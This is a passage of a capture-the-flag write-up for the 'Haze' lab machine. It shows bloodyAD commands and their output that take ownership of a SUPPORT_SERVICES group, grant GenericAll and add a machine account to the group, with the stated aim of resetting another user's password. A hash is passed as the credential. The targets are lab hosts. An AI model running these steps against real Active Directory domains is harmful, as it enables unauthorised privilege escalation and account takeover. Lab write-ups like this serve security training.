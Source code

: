 ![alt text](../assets/images/haze17.png)

Okey my attack vector is:

We have writeOwner on Support_Services so lets add ourself with bloodyAD → Then give itself full privileges on Support Services → then add ourself in group now we can use Support_Services privileges with HAZE-IT-BACKUP$ so we can retrieve or change password of edward.martin.

1- Lets use set owner with bloodyAD

```bash
➜  Haze bloodyAD --host DC01.haze.htb -d haze.htb -u Haze-IT-Backup$ -p :4de830d1d58c14e241aff55f82ecdba1 set owner "SUPPORT_SERVICES" Haze-IT-Backup$
[+] Old owner S-1-5-21-323145914-28650650-2368316563-512 is now replaced by Haze-IT-Backup$ on SUPPORT_SERVICES
```

nice!!! now lets give us Full privileges with GenericAll

```bash
➜  Haze bloodyAD --host DC01.haze.htb -d haze.htb -u Haze-IT-Backup$ -p :4de830d1d58c14e241aff55f82ecdba1 add genericAll "SUPPORT_SERVICES" Haze-IT-Backup$
[+] Haze-IT-Backup$ has now GenericAll on SUPPORT_SERVICES
```

Nice!!!!!!!! now we can add ourself in group cause we have full privileges.

```bash
➜  Haze bloodyAD --host DC01.haze.htb -d haze.htb -u Haze-IT-Backup$ -p :4de830d1d58c14e241aff55f82ecdba1 add groupMember "SUPPORT_SERVICES" Haze-IT-Backup$
[+] Haze-IT-Backup$ added to SUPPORT_SERVICES
```

Great now we have full privileges on Group so we can use groups privielges itself.
